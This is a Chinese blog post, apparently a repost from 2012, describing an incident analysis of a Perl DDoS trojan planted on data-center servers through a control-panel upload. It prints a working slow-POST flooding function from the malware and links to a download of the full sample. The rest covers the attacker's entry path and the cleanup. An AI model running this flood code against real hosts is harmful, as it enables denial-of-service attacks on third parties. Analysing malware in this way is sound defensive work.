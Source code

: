 ```yaml
---
date: '2012-04-22 16:04'
layout: post
slug: zt-an-experience-of-server-anti-ddos
title: "[ZT]记一次运维，一个 Linux 木马"
description: ""
category: 
tags: [ddos, server]
---
```

{% include JB/setup %}

2012-04-22 16:04	25 次围观

* * *

上个月数据中心的多台服务器接连被人挂马，又有客户的网站被 DDOS，公司的运维整个都处于一种被打了鸡血的亢奋状态，连我手上的项目都被部门老大停了，调去帮运维。第一次见到 Linux 下面的木马，突然想起来，还是值得记录一下。

分析日志发现 Attacker 应该是通过某种途径获得了客户的后台密码，然后利用控制面板的漏洞，上传了压缩包里的 `falabiya.cgi` 并运行。这样会生成 `.X11-unix` 文件（其实就是 falabiya 那一段 `base64_decode`）， `.X11-unix`即具体的后门程序。

信安专业的 Felix021 和芒果师兄都对这个案例表示出了兴趣，于是我分别和他们分析了一下。这是一段 perl 脚本，写得十分精妙。具体功能就是拿我们的服务器做肉鸡，监听端口获取指令，向指定地址发送数据，从而实行 DDOS 攻击。代码内置了几乎所有浏览器的 UA 字符串，每次都随机抽取其中一个，伪装为正常访问。genGarbage、tcp flood、udp flood、slow get/post 等各种 DDOS 方式均有实现，特别是 sendSlowPostRequest 这个方法，实在太贱了，一点点地发，对方必须 hold 住资源等你发完。。短短数百行代码，却对各种错误异常处理得十分仔细，必然出自高人之手。注释里有些不能识别的字符，也不知道是什么编码，无法推断是哪个国家的黑客写的。。

<font color="navy">
Galaxy看到注释中有`#id3|slowpost|ya3.ru|3128|/index.html`，就猜到是俄语。到EditPlus中翻了半天，找到`Ukrainian (MAC) 10017`，解出来一看，果然是。<br>
话说，俄语的学名是“乌克兰语”<font style="font-family: monospace;">[j'kreinən]</font>么？
</font>

	sub sendSlowPostRequest {
		my $host = $_[0];
		my $port = $_[1];
		my $path = $_[2];	
		my $contentLen = $_[3];	
		my $chars = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ!@#$%^&*()_+|\=-~`1234567890";
		
		print "start\n";
		
		socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
		$iaddr = inet_aton($host);
		$paddr = sockaddr_in($port, $iaddr);
		connect(SOCK, $paddr);
		
		#send header
		send (SOCK, "POST ".$path." HTTP/1.1\r\n", 0);	
		send (SOCK, "Host: $host\r\n", 0);	
		send (SOCK, "User-Agent: $ua\r\n", 0);	
		send (SOCK, "Content-type: application/x-www-form-urlencoded\r\n", 0);	
		send (SOCK, "Content-length: $contentLen\r\n", 0);	
		send (SOCK, "\r\n", 0);	
		
		#send body
		for my $i (1..$contentLen){
			my $symbol = substr $chars, int rand length($chars), 1;
			print "$symbol ";
			send (SOCK, $symbol, 0);
			sleep 3;
		}
		send (SOCK, "\r\n", 0);
		close(SOCK);
		print "end\n";
	}

后来我们清理掉了所有木马，限制脚本运行，配置防火墙阻止向外发送异常数据。至于我们自己被 DDOS 攻击，也是配防火墙搞定，那几台设备好几百万，还是相当给力的。因为来自中国的攻击很多，Boss 一直对内地黑客十分“敬仰”，要我介绍几个给他认识。。其实我是了解国内那些所谓的“黑客”的，不得已只好把也是武大信安毕业后来去中科院的 LC 拉来……后来 Boss 还跑去北京找绿盟谈过合作，据说他家要上市了。

代码请[猛戳这里](/assets/wp-uploads/2012/peach.20120228.zip "http://host-for-download.googlecode.com/files/peach.20120228.zip")下载。有任何研究发现，欢迎分享。
